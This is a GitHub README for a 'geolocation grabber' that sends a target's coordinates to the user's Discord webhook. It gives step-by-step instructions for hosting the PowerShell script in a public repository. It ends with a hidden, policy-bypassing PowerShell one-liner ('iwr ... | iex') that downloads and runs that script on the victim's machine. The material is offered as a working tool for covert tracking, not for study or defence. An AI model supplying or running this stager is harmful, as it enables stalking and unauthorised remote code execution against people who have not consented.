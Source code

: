 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>click geolocationgraber.ps1.txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906165-30e731b6-a8fe-46c8-b880-86898b2a0ae1.png?raw=true" width="350"> 
<p>click the pen<p/>
<p>del .txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906166-45d4a03e-e9c8-4852-904a-01461fb235db.png?raw=true" width="350"> 
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906167-75a9fcbd-bf67-42cc-9bb9-024a95bd70c2.png?raw=true" width="350"> 
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
 ``` powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex ```  
